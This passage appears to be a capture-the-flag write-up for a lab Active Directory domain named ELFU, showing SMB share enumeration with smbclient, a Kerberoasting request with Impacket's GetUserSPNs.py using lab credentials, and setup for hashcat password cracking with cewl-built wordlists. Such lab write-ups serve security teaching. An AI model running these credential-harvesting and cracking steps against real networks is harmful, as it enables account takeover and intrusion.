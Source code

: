 ``` 
$smbclient -L 10.128.3.30 -p 445
Enter WORKGROUP\fbsjgeyymg's password: 

	Sharename       Type      Comment
	---------       ----      -------
	netlogon        Disk      
	sysvol          Disk      
	elfu_svc_shr    Disk      elfu_svc_shr
	research_dep    Disk      research_dep
	IPC$            IPC       IPC Service (Samba 4.3.11-Ubuntu)
SMB1 disabled -- no workgroup available
``` 
it could be useful to have an access to the **elfu_svc_shr** and **research_dep** shares.

let's go back to the domain controller and see if we can obtain someuseful creds.

## impacket
we have some docs here to read:
* [(Kerbero Cheatsheet)](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
* [Impacket](https://github.com/SecureAuthCorp/impacket/blob/cd4fe47cfcb72d7d35237a99e3df95cedf96e94f/examples/GetUserSPNs.py)

and we can use the script GetUserSPNs.py to find Service Principal Names that are associated with our user account
and run it against the Domain Controller

``` 
$python3 GetUserSPNs.py -outputfile output.txt -dc-ip 10.128.1.53 ELFU.local/dcvcskikmq:'Gvogcgrrp@' -request
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

ServicePrincipalName                 Name      MemberOf  PasswordLastSet             LastLogon  Delegation 
-----------------------------------  --------  --------  --------------------------  ---------  ----------
ldap/elfu_svc/elfu                   elfu_svc            2021-10-29 19:25:04.305279  <never>               
ldap/elfu_svc/elfu.local             elfu_svc            2021-10-29 19:25:04.305279  <never>               
ldap/elfu_svc.elfu.local/elfu        elfu_svc            2021-10-29 19:25:04.305279  <never>               
ldap/elfu_svc.elfu.local/elfu.local  elfu_svc            2021-10-29 19:25:04.305279  <never> 

``` 
the script saved the hash of the service account found in the output.txt file.<br/>
Time to try to crack the hash.

## Hashcat
taken from hints to build our hashcat rule: 
```{note} 
Hashcat Mangling Rules

From: Eve Snowshoes

[(OneRuleToRuleThemAll.rule)](https://github.com/NotSoSecure/password_cracking_rules) is great for mangling when a password dictionary isn't enough.
``` 
Now, time for some password cracking. <br>
First we have to build up a password list. We use the awesome tool found in the hints, `cewl`, that is able to build a list
of possible password extracted from a site just by giving it the url.  
